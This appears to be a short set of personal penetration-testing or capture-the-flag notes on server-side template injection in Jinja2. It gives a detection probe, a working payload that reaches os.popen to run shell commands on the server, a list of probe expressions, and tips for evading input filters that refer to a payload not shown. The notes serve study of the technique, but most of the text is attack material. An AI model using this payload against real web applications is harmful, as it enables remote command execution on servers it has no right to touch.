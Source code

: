 

If we want to check if a site is vulnerable 
do something like {{7*'7'}} to see if you can influence what the displayed result will be
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('COMAND TO RUN').read() }}




SSTI2 

Jinja2
try all of these
{{ [].__class__ }}
{{ {}.keys() }}
{{ () }}
{{ request }}
{{ g }}
{{ url_for }}
{{ get_flashed_messages }}
{{ self }}
{{ namespace() }}
{{ dict }}

- **No dot access**: Avoids `request.application.__globals__`, which is often blocked.
    
- **Hex-encoded names**: Bypasses filters looking for double underscores.
    
- **Fully dynamic**: Works even in hardened Jinja2 if `attr()` and `__import__` aren’t filtered.

![[Pasted image 20250325225348.png]]